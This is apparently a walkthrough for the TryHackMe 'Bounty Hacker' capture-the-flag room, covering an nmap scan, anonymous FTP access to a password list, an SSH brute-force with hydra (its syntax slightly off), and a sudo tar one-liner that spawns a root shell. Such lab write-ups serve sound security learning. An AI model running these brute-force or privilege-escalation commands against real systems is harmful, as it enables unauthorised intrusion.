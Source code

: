 ### Bounty Hacker CTF Writeup

## Link: https://tryhackme.com/room/cowboyhacker

Our first step is to always begin with enumeration, we can use alot of tools to do this but we are going to use the most popular enumeration tool called 'Nmap' 

`┌──(--㉿kali)-[~]
└─$ nmap 10.10.81.164 -sV -sC
`



`
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
`



`
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
`



`
80/tcp open  http    Apache httpd 2.4.18 
`



From this Nmap scan we see that there are 3 ports open: port 21, 22 and 80
Importantly, we see that on port 21 there is 'Anonymous FTP login allowed' (This means that we can login as user anonymous and provide no password)


### The web-server:

If he head over to the website running this machine (which you can access by going to http://<machine_ip>) we are greeted by this main page:

![image](https://github.com/traveller404/Bounty-Hacker-CTF-/assets/92340426/757a9125-6535-4cee-af12-d83a835361d5)

Reading through this we are greeted by characters called Spike, Jet, Ed and Faye and we also learn of 2 other people called Edward and Ein.
These could be possible usernames for the ssh service running on port 22.

Inspecting the source code of the webpage reveals nothing ontop of this.

### The FTP service:

Log into the FTP service on the machine with the following command:

ftp <machine_ip>

Connected to 10.10.81.164.
Name (10.10.81.164:--): anonymous

230 Login successful.

Using `ls` we can see the files on this ftp service and we are told there are 2 .txt files, tasks.txt and locks.txt
Use `mget *` as a means to get all files to your local device then exit the ftp service

### SSH Access

The contents of task.txt contain another person, Lin, but locks.txt is more useful
It is a file containing presumably passwords, and with the list of potential usernames we collected earlier from the website and Lin from task.txt, its time to commence a brute force attack

To do this attack we must make a file containing the usernames, which for convenience sake we will call users.txt and then write our command

`hydra -l users.txt -P locks.txt ssh://<machine_ip -V>`

SUCCESS!!! 
We now have a username and password

### Privelege Escalation

`ssh lin@<machine_ip>`

Logging on we see the first flag, which you can get yourself
But we are not done, we need to get the root flag, which we dont have access to, we need to escalate our privelleges
Using `sudo -l` we can see what we can run as sudo, which is tar, go to https://gtfobins.github.io/# and search up tar, I will let you do this on your own

If you have found the right command it should be 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Executing this gives us root permissions, meaning we have full control over the machine
Change to /root and get the flag

I hope this helps!!
